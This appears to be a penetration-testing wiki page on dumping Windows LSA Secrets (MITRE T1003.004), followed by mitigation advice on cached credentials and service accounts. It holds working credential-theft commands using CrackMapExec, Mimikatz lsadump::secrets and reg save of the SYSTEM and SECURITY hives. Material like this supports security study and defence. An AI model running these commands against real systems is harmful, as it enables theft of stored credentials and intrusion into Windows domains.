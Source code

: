 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.004
---
```


# LSA Secrets

### Dumping LSA Secrets

Dumping LSA Secrets with CrackMapExec:

```bash
crackmapexec smb [HOST] -u [USER] -p [PASSWORD] --lsa
```

Dumping LSA Secrets with Mimikatz:

```bash
lsadump::secrets
```

Dumping LSA Secrets manually and then reading them with Mimikatz

```powershell
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

### Mitigations

When researching LSA Secrets on [MITRE](https://attack.mitre.org/techniques/T1003/004/) it appears as though the only mitigation to LSA Secrets being dumped is through detection. However, this is not the case.

The following settings can be configured to remove cached domain credentials from LSA Secrets:

```bash
Cached credential set to 0 on servers
Cached credential set to 1 on workstations
```

When cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account).

To mitigate this issue, avoid using a domain account for the service. Best practice is to avoid using a domain user account for services. Rather, create a local account to run the service. If specific domain user rights are needed then create an account with the _specific_ rights required. It should also be stated to **never** use a domain administrator account for a service.

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials" %}

{% embed url="https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration" %}

{% embed url="https://www.passcape.com/index.php?cmd=details&id=23&section=docsys" %}

